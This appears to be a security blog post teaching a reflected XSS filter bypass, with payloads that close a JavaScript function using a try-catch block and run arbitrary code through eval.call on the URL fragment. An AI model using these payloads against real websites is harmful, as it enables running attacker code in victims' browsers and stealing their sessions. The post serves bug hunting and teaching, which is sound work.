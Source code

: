 ```yaml
---
layout: post
title: "Breaking out of a function context without () and // for XSS"
---
```


Let's say you've found something that could lead to relfect xss. You can inject unescaped characters in a piece of javascript on a page like:


{% highlight html linenos %}
...
<script>
    $(function () {
        //...
        function foo() {
            someCode;
            var url = 'www.example.com/INJECTION_HERE';
            someMoreCode;
        }
        //...
    });
</script>
...
{% endhighlight %}

You want your xss payload to fire without a need of `foo` function being called, but you cannot use `(`, `)`, `/`, `<`, `>` and new lines. This actually can happen if our entry point is a part of url's path like `https://www.example.com/foo/OUR_INPUT_HERE/bar/`. In such conditions, we cannot get out of `<script>` and jquery's `$(...)`. So what do we do?

## Getting out of foo ...

First, let's get out of `foo` function. This one is pretty simple and obvious. All we have to do is to inject:

{% highlight text %}
'} alert`1` - '
{% endhighlight %}

but then we get:
{% highlight javascript linenos %}
...
    $(function () {
        //...
        function foo() {
            someCode;
            var url = 'www.example.com/'} alert`1` - '';
            someMoreCode;
        } // <-- this bracket spoils everything :(
        //...
    });
...
{% endhighlight %}

Closing bracket on line 8 breaks the code inside `$(function () {...})` and therefore our `alert` is not being executed. We need to do it a little bit smarter.

## ... without braking everything else

So, we need to put something after our `alert` to make the closing bracket fit. Maybe let's add `function bar() {`?
<br>
<div style="text-align: center; opacity: .8"> but we cannot use ()'s.</div>
<br>
So maybe we can just open `{` to get an [object literal](https://www.dyn-web.com/tutorials/object-literal/)?
<br>
<br>
<div style="text-align: center; opacity: .8">Inside an object literal only key:value pairs are allowed and we have bunch of code in the following lines</div>
<br>
<br>
Ok. So what kind of javascript creature has an opening `{`, no `()`'s and code inside?
<br>
<br>
<div style="text-align: center; opacity: .8">
The try...catch statement!
</div>
<br>
<br>
Great! When we use something like:

{% highlight text %}
'} alert`1`; try {} catch {'
{% endhighlight %}

we end up with:

{% highlight javascript linenos %}
...
    $(function () {
        //...
        function foo() {
            someCode;
            var url = 'www.example.com/'} alert`1`; try {} catch {'';
            someMoreCode;
        }
        //...
    });
...
{% endhighlight %}

which is valid javascript code and therefore our `alert` fires!

## But how do we execute anything more meaningful than an alert?

As I've mentioned, we are not allowed to use `()` which makes creating payloads a bit tricky. To get around this, we can use the following trick. First, we inject this in our entry point:

{% highlight javascript %}
eval.call`${document.location.hash.substr`1`}`
{% endhighlight %}

and then we put our payload in url's [fragment identifier](https://en.wikipedia.org/wiki/Fragment_identifier) where all characters are allowed.

For example:

{% highlight text %}
https://www.example.com/foo/eval.call`${document.location.hash.substr`1`}`/bar/#yourPayloadHere()
{% endhighlight %}

Of course, we need to url encode `eval.call...` to make it work.


<br>
<br>
Happy hunting!
